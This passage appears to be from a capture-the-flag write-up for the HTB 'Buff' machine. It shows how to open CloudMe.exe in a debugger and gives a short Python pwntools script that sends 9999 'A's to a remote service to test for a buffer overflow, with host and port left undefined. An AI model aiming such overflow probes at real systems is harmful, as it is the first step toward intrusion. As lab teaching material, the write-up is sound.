 To import the file to xdbg I'll do  the following
1. go to File > Open > CloudMe.exe

![Desktop View](/assets/img/htb/buff/file_open.png)

2. click repeatedly on the run button until the program starts

![Desktop View](/assets/img/htb/buff/run_button.png)

Once the program starts I'll begin to write the exploit script in python.

#### checking for buffer overflow
First I'll send 9999 "A"s to the program to verify a buffer overflow vulnerability.

```python
#!/usr/bin/env python3
from pwn import *

def exploit():
    
    buffer="\x41" * 9999

    payload = buffer

    conn = remote(host,port)
    conn.sendline(payload)
    conn.close()
    print("[+] Payload sent")
    
if __name__ == '__main__':
    exploit()
```
